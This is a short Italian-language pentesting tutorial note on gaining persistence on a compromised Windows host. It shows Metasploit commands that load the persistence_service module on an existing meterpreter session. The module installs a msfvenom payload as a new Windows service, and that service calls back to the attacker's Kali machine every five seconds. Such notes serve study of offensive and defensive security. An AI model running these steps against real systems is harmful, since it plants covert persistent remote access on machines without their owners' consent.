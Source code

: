 
# Persistenza tramite i Servizi Windows
dopo aver stabilito una sessione meterpreter su un target, possiamo utilizzare un modulo specifico per poter abilitare la persistenza sul sistema target tramite dei servizi. <br> 
Questo particolare modulo, genera un payload con msfvenom che verrá caricato sul target e creerà un nuovo servizio che avvierà il payload quindi per poter creare un nuovo servizio, abbiamo bisogno di ottenere l'accesso al sistema tramite un utente con privilegi amministrativi.
```bash
use exploit/windows/local/persistence_service
set SESSION 1
set LPORT <DiffPORT>
run
```
lasciando le variabili di default, il modulo creerà un servizio che ogni 5 secondi effettuerà una connessione con la nostra macchina kali. 
